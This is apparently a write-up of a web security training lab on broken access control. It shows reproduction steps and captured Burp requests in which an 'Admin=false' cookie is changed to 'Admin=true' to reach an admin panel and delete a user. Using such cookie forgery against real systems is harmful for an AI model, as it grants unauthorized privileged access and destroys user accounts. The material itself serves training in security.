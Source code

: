 > Finding: Role enforcement relies on a forgeable cookie, bypassing proper server-side authorization.

---

## Reproduction steps (concise, non-sensitive)

1. Log in to the application using credentials `wiener:peter` (via POST to `/login`).  
2. Use Burp Suite to intercept a request (e.g., to `/admin`).  
3. Modify the `Cookie` header: Change `Admin=false` to `Admin=true`.  
4. Forward the request to access the admin panel.  
5. Navigate to the user deletion endpoint (e.g., `/admin/delete?username=carlos`) with the forged cookie.  
6. Verify deletion via UI confirmation or lab success.

**Captured Burp Suite HTTP interactions (actual requests from exploitation):**

**Request to access admin panel (with forged cookie):**
```
GET /admin HTTP/2
Host: 0ac600f103d7739a815ea7a7003900ab.web-security-academy.net
Cookie: Admin=true; session=FfNmnzQLuQICG5mJl28i8UAKuv4YDTOm
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

**Additional request (WebSocket upgrade, observed but not directly used):**
```
GET /academyLabHeader HTTP/2
Host: 0ac600f103d7739a815ea7a7003900ab.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0ac600f103d7739a815ea7a7003900ab.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: Admin=false; session=FfNmnzQLuQICG5mJl28i8UAKuv4YDTOm
Sec-Websocket-Key: cqGYYHWGwXnV07eU7bL1zA==
```
